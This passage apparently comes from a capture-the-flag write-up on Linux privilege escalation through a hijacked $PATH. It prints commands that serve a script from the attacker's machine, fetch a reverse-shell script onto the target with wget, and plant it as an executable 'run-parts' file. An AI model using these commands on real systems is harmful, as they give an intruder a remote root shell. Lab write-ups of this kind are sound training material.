 ![1568724965720](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Writeup/1568724965720.png)





We then transfer the file to `/tmp` directory(since it's usually world writable) onto the target. After which, we create a file called `run-parts` inside hijacked `$PATH` directory. Finally we set our malicious `run-parts` file as executable.



```bash
# on our attacking machine
python -m SimpleHTTPServer 1234
# on target
cd /tmp
wget 10.10.16.53:1234/tcp_pty_backconnect.py
echo python /tmp/tcp_pty_backconnect.py > /usr/local/sbin/run-parts
chmod +x /usr/local/sbin/run-parts
```



OR
